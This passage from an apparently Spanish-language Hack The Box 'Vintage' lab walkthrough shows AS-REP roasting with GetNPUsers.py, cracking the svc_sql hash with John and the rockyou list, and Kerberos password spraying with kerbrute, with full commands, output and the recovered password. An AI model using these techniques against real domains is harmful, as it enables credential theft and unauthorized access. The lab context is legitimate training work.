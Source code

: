 Obtendremos el TGT correspondiente a la cuenta `svc_sql`, guardaremos este hash en un archivo para intentar crackearlo con `john` o `hashcat`

~~~ bash
GetNPUsers.py vintage.htb/ -usersfile users.txt                                                                                       
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
~~~


## Hash Cracking

Una vez asignamos el atributo `DONT_REQ_PREAUTH`, lanzamos el ataque AS-REP Roast para obtener el TGT de la cuenta `svc_sql`

~~~ bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Zer0the0ne       ($krb5asrep$svc_sql@VINTAGE.HTB)     
1g 0:00:00:15 DONE (2025-04-25 15:13) 0.06389g/s 916533p/s 982881c/s 982881C/s !!12Honey..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~


## Kerberos Password Spraying

Usaremos esta contraseña para hacer `Password Spraying` y así identificar usuarios que puedan autenticarse con este credencial

~~~ bash
kerbrute passwordspray --dc 10.10.11.45 -d vintage.htb users.txt Zer0the0ne 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 04/25/25 - Ronnie Flathers @ropnop

2025/04/25 15:16:34 >  Using KDC(s):
2025/04/25 15:16:34 >  	10.10.11.45:88

2025/04/25 15:16:35 >  [+] VALID LOGIN:	C.Neri@vintage.htb:Zer0the0ne
2025/04/25 15:16:35 >  [+] VALID LOGIN:	svc_sql@vintage.htb:Zer0the0ne
2025/04/25 15:16:35 >  Done! Tested 17 logins (2 successes) in 1.369 seconds
~~~
